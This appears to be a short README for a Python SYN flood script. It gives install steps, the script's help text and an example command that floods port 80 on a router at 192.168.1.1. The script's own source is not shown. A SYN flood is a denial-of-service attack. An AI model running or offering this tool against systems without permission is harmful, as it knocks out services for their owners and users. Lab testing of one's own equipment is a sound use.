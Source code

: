# To run this:
- `pip3 install -r requirements.txt`
- Run help:
    ```
    python syn_flood.py --help
    ```
    **Output:**
    ```
    usage: syn_flood.py [-h] [-p PORT] target_ip

    Simple SYN Flood Script

    positional arguments:
    target_ip             Target IP address (e.g router's IP)

    optional arguments:
    -h, --help            show this help message and exit
    -p PORT, --port PORT  Destination port (the port of the target's machine
                            service, e.g 80 for HTTP, 22 for SSH and so on).
    ```
- To run this against your router's web interface that has the IP address of 192.168.1.1:
    ```
    python syn_flood.py -p 80 192.168.1.1
    ```